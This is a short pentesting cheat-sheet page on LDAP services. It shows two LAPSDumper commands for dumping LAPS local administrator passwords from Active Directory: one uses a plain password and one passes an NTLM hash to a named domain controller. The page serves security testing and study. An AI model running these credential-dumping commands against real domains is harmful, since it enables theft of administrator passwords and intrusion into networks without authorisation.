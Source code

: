 ```yaml
---
layout: default
title: LDAP Pentesting (389, 636, 3268, 3269)
nav_order: 2
has_children: false
parent: Services Pentesting
grand_parent: Pentesting
---
```


## LDAP Pentesting (389, 636, 3268, 3269) :

### LAPSDumper - Dump credential 

- [GitHub](https://github.com/n00py/LAPSDumper)

Usage - Basic:

```bash
python3 laps.py -u user -p password -d domain.local
```

Pass the Hash, specific LDAP server:

```bash
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```